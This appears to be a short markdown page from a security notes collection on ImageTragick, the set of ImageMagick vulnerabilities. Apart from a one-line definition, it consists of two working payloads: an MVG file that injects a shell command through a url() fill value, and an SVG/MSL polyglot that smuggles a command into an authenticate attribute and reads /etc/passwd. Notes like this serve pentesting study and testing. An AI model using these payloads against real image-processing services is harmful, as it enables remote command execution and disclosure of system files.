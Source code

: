 ## Definition
__ImageTragick__ are a set of attacks that can be run in the well-know [Imagemagick](</General Info/Tecnologias Web/Imagemagick.md>).

## Common attacks
- .MVG file attack: 
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```
- .SVG shell injection via PDF password (SVG MSL Polyglot file):
```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
	</image>
```
